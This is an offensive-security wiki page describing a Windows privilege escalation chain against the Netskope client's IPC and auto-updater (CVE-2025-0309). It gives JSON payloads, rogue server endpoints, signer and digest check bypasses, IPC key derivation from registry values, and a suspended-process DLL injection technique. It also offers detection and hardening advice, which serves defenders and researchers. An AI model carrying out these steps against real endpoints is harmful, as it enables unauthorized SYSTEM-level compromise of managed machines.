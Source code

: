# Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

This page generalizes a class of Windows local privilege escalation chains found in enterprise endpoint agents and updaters that expose a low‑friction IPC surface and a privileged update flow. A representative example is Netskope Client for Windows < R129 (CVE-2025-0309), where a low‑privileged user can coerce enrollment into an attacker‑controlled server and then deliver a malicious MSI that the SYSTEM service installs.

Key ideas you can reuse against similar products:
- Abuse a privileged service’s localhost IPC to force re‑enrollment or reconfiguration to an attacker server.
- Implement the vendor’s update endpoints, deliver a rogue Trusted Root CA, and point the updater to a malicious, “signed” package.
- Evade weak signer checks (CN allow‑lists), optional digest flags, and lax MSI properties.
- If IPC is “encrypted”, derive the key/IV from world‑readable machine identifiers stored in the registry.
- If the service restricts callers by image path/process name, inject into an allow‑listed process or spawn one suspended and bootstrap your DLL via a minimal thread‑context patch.

---
## 1) Forcing enrollment to an attacker server via localhost IPC

Many agents ship a user‑mode UI process that talks to a SYSTEM service over localhost TCP using JSON.

Observed in Netskope:
- UI: stAgentUI (low integrity) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Craft a JWT enrollment token whose claims control the backend host (e.g., AddonUrl). Use alg=None so no signature is required.
2) Send the IPC message invoking the provisioning command with your JWT and tenant name:

```json
{
  "148": {
    "idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
    "tenantName": "TestOrg"
  }
}
```

3) The service starts hitting your rogue server for enrollment/config, e.g.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Notes:
- If caller verification is path/name‑based, originate the request from a allow‑listed vendor binary (see §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Once the client talks to your server, implement the expected endpoints and steer it to an attacker MSI. Typical sequence:

1) /v2/config/org/clientconfig → Return JSON config with a very short updater interval, e.g.:
```json
{
  "clientUpdate": { "updateIntervalInMin": 1 },
  "check_msi_digest": false
}
```
2) /config/ca/cert → Return a PEM CA certificate. The service installs it into the Local Machine Trusted Root store.
3) /v2/checkupdate → Supply metadata pointing to a malicious MSI and a fake version.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: the service may only check the Subject CN equals “netSkope Inc” or “Netskope, Inc.”. Your rogue CA can issue a leaf with that CN and sign the MSI.
- CERT_DIGEST property: include a benign MSI property named CERT_DIGEST. No enforcement at install.
- Optional digest enforcement: config flag (e.g., check_msi_digest=false) disables extra cryptographic validation.

Result: the SYSTEM service installs your MSI from
C:\ProgramData\Netskope\stAgent\data\*.msi
executing arbitrary code as NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope wrapped IPC JSON in an encryptData field that looks like Base64. Reversing showed AES with key/IV derived from registry values readable by any user:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Attackers can reproduce encryption and send valid encrypted commands from a standard user. General tip: if an agent suddenly “encrypts” its IPC, look for device IDs, product GUIDs, install IDs under HKLM as material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Some services try to authenticate the peer by resolving the TCP connection’s PID and comparing the image path/name against allow‑listed vendor binaries located under Program Files (e.g., stagentui.exe, bwansvc.exe, epdlp.exe).

Two practical bypasses:
- DLL injection into an allow‑listed process (e.g., nsdiag.exe) and proxy IPC from inside it.
- Spawn an allow‑listed binary suspended and bootstrap your proxy DLL without CreateRemoteThread (see §5) to satisfy driver‑enforced tamper rules.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

Products often ship a minifilter/OB callbacks driver (e.g., Stadrv) to strip dangerous rights from handles to protected processes:
- Process: removes PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: restricts to THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

A reliable user‑mode loader that respects these constraints:
1) CreateProcess of a vendor binary with CREATE_SUSPENDED.
2) Obtain handles you’re still allowed to: PROCESS_VM_WRITE | PROCESS_VM_OPERATION on the process, and a thread handle with THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (or just THREAD_RESUME if you patch code at a known RIP).
3) Overwrite ntdll!NtContinue (or other early, guaranteed‑mapped thunk) with a tiny stub that calls LoadLibraryW on your DLL path, then jumps back.
4) ResumeThread to trigger your stub in‑process, loading your DLL.

Because you never used PROCESS_CREATE_THREAD or PROCESS_SUSPEND_RESUME on an already‑protected process (you created it), the driver’s policy is satisfied.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automates a rogue CA, malicious MSI signing, and serves the needed endpoints: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope is a custom IPC client that crafts arbitrary (optionally AES‑encrypted) IPC messages and includes the suspended‑process injection to originate from an allow‑listed binary.

---
## 7) Detection opportunities (blue team)
- Monitor additions to Local Machine Trusted Root. Sysmon + registry‑mod eventing (see SpecterOps guidance) works well.
- Flag MSI executions initiated by the agent’s service from paths like C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Review agent logs for unexpected enrollment hosts/tenants, e.g.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – look for addonUrl / tenant anomalies and provisioning msg 148.
- Alert on localhost IPC clients that are not the expected signed binaries, or that originate from unusual child process trees.

---
## Hardening tips for vendors
- Bind enrollment/update hosts to a strict allow‑list; reject untrusted domains in clientcode.
- Authenticate IPC peers with OS primitives (ALPC security, named‑pipe SIDs) instead of image path/name checks.
- Keep secret material out of world‑readable HKLM; if IPC must be encrypted, derive keys from protected secrets or negotiate over authenticated channels.
- Treat the updater as a supply‑chain surface: require a full chain to a trusted CA you control, verify package signatures against pinned keys, and fail closed if validation is disabled in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
